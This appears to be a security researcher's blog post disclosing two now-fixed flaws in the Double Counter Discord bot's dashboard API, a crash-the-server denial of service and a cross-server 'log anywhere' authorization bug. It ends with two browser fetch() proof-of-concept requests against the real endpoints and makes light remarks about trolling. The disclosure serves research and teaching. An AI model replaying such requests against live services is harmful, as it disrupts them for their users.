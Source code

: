 +++
title = 'Log Anywhere & Simple DOS - Double Counter Vulnerabilities'
date = 2025-08-19T21:54:28Z
draft = false
+++

# Log Anywhere & Simple DOS - Double Counter Vulnerabilities

Before I start, I'll provide some context: Double Counter is an anti-alt bot for the messaging app Discord, where users can verify themselves through their service, and server owners can configure and set up Double Counter for their server. It is frequently given full administrator access, meaning it has a ton of trust by default; this is bad when the bot is influenced by an attacker. It runs on a parent company (which the owner of Double Counter also owns), Tellter, and the Double Counter APIs are on their servers.

## TL;DR:

While the service enforces strict checks on the Discord server ID that configurations apply to when changing settings, they had essentially nonexistent checks on everything else. This let me set the log channel IDs (which are unique, and if not enforced by the Discord bot, is about the same as applying configurations for a different server) for a different channel in another server that the DC bot is in. From there, you can just verify, and logs go to the other channel. It's not a crazy vulnerability, but it’s more common than one might think in other bots.

Also, there was a DOS vulnerability where the server errored when you tried to make premium configuration requests when you didn't own a server with premium; 5 or 10 of those could crash the Dyno (what Heroku calls their containers) for Tellter.

## Why I started

I really like pentesting Discord Bots, specifically bots made for server management, because: 

1. They were made by normal people instead of corporations
2. Are often WAY overprivilaged, usually with admin permissions for convenience of the developer
3. Usually have an external management and configuration dashboard, which you can pentest easily

DC is one of those bots that requests administrator permissions by default (but to be fair, even if it didn’t, it would need a lot of the high privilege, abusable permissions), and has had prior vulnerabilities with writeups that are now fixed. One vulnerability, specifically, is IDOR relating to changing the server ID when configuring, which is why all requests had a strict check on the server ID.

## DOS Vulnerability

The way I found the DOS vulnerability was pretty simple. I wanted to check if premium configuration locks (which are behind a paywall) are client-side only, so I removed the overlay that prevented me from using the premium configurations UI. From there, I tried changing something, saving, and I saw that I didn't get a 403 error, like I expected. Instead of rejecting the request and handling the issue gracefully, the request spent an abnormally long time resolving, and gave me a 500 (server error) instead.

I thought I could trick it into letting me set premium configs through a race-condition-type attack, so I just sent a bunch of the same request (the one that caused a 500) like 5 or 10 times, and to my surprise, the Dyno died and I was met with a Heroku error page. This meant I could take down the dashboard API globally and stop anyone from configuring DC settings (an act of true evil 👻), with a single machine and only a couple requests.

## Log Anywhere

This one is cooler than the DOS, in my opinion.

![picture of random logs in a read-only welcome channel](../../interstellar-logs.png)

This is a screenshot of Double Counter spitting random internal logs when I verified in my test server, to a read-only welcome channel in a server that someone else owns and has Double Counter on.

I already explained how it worked in the TL;DR, but the true vulnerability here is that the scope of the channel IDs wasn't limited to the server, it was global. However, it's really just one simple fix, and this doesn't really matter in the grand scheme of everything DC, but it still isn't a good idea to let anyone be able to make any channel on a DC server (including the official server and 500k+ other servers) a logging channel, which is kind of spammy.

## Reporting

This was an interesting report, because I worked directly with the owner to get it fixed, and got a cash reward for it. After sending weird logs to the official server, the DC owner and some other mods got involved, and we got it fixed the very same day (also mixed with a little bit of trolling the mods). However, the owner was really reactive, and gave us a reward for the vulnerability, saying: 

> It's normal, that's how you treat people who help instead of destroying things 😄
> It should be the norm everywhere

Which I would say is pretty cool. AND to add onto that, DC gave us free premium on the testing server I used to try to escalate the vuln (I couldn't), which was pretty nice.

## PoCs:

These PoCs are pretty simple and run on the browser; you just need to log into the Double Counter dashboard for the auth header:

DOS Script (used to DOS by running like 5 or 10 times):

```
fetch("https://integrations.tellter.com/dashboard/premium_info", {
  "headers": {
    "accept": "application/json, text/plain, */*",
    "accept-language": "en-US,en;q=0.9",
    "authorization": "Bearer ***", // replace auth here
    "cache-control": "no-cache",
    "content-type": "application/json",
    "pragma": "no-cache",
    "priority": "u=1, i",
    "sec-ch-ua": "\"Not:A-Brand\";v=\"24\", \"Chromium\";v=\"134\"",
    "sec-ch-ua-mobile": "?0",
    "sec-ch-ua-platform": "\"Linux\"",
    "sec-fetch-dest": "empty",
    "sec-fetch-mode": "cors",
    "sec-fetch-site": "cross-site"
  },
  "referrer": "https://dashboard.doublecounter.gg/***/premium",
  "referrerPolicy": "unsafe-url",
  "body": "{\"custom\":\"hello!\",\"serverId\":\"[your server ID]\"}",
  "method": "PATCH",
  "mode": "cors",
  "credentials": "include"
});
```

Log Anywhere Script:

```
fetch("https://integrations.tellter.com/dashboard/server_settings", {
  "headers": {
    "accept": "application/json, text/plain, */*",
    "accept-language": "en-US,en;q=0.9",
    "authorization": "Bearer ***",
    "cache-control": "no-cache",
    "content-type": "application/json",
    "pragma": "no-cache",
    "priority": "u=1, i",
    "sec-ch-ua": "\"Not:A-Brand\";v=\"24\", \"Chromium\";v=\"134\"",
    "sec-ch-ua-mobile": "?0",
    "sec-ch-ua-platform": "\"Linux\"",
    "sec-fetch-dest": "empty",
    "sec-fetch-mode": "cors",
    "sec-fetch-site": "cross-site"
  },
  "referrer": "https://dashboard.doublecounter.gg/1321684596517244939/preferences",
  "referrerPolicy": "unsafe-url",
  "body": "{\"verification_channel\":\"[target channel]\",\"verification_role\":\"[configure a real verification role in your server here]\",\"log_channel\":\"[target channel]\",\"serverId\":\"[attacker DC server]\"}",
  "method": "POST",
  "mode": "cors",
  "credentials": "include"
});
```

## Conclusion

Finding vulns in Discord bots is an untapped market; the trolling potential is insane, and in some cases, it's easy to pentest too. Also, software owners should aspire to be like the DC owner, who treats reports like help instead of a threat.

- doxr